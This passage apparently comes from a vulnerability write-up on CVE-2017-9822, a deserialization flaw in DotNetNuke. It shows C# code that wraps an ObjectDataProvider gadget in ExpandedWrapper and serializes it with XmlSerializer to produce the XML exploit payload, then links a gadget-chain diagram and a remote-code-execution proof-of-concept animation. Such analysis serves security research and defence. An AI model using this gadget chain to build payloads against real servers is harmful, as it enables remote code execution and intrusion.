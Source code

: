 ```csharp

/* --- #3 ---
 * Wrap ObjectDataProvider with ExtendedWrapper for runtime type information
 */
ExpandedWrapper<ObjectStateFormatter, ObjectDataProvider> ep = new ExpandedWrapper<ObjectStateFormatter, ObjectDataProvider>();
ep.ProjectedProperty0 = odp;

/* --- #4 ---
 * Serialize final XML payload via XmlSerialize::Serialize
 */
XmlSerializer xmlSerializer = new XmlSerializer(ep.GetType());
StringWriter sw = new StringWriter();
xmlSerializer.Serialize(sw, ep);
sw.Close();
Console.WriteLine("AQN Type: " + ep.GetType().AssemblyQualifiedName);
Console.WriteLine(sw.ToString());
```

The general flow of the gadget-chain can be visualized like the following:

![GadgetChainGeneralFlow](/assets/img/GadgetChainGeneralFlow.png)

Remote Code Execution POC:

![CVE-2017-9822-POC-Final](/assets/img/CVE-2017-9822-POC-Final.gif)